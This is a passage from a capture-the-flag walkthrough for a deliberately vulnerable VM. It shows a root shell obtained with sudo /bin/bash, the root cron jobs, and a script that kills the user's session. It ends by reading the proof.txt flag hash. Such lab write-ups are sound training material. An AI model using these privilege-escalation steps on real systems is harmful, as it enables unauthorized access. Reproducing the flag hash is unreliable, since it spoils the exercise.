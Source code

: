 ```console
```

After few minutes we run /bin/bash with the sudo command, and we get root.

```console
overflow@troll:/$ sudo /bin/bash
sudo: unable to resolve host troll
root@troll:/#
```

We list the cron jobs and show the script that kicks us out of the system.

```console
root@troll:/# crontab -l | tail -2
*/5 * * * * /usr/bin/python /opt/lmao.py
*/2 * * * * /usr/bin/python /lib/log/cleaner.py

root@troll:/# cat /opt/lmao.py
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()

root@troll:/#
```

We move to the root directory and read the flag.

```console
root@troll:/# cd root/
root@troll:/root# ls
proof.txt
root@troll:/root# cat proof.txt 
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
root@troll:/root#
```
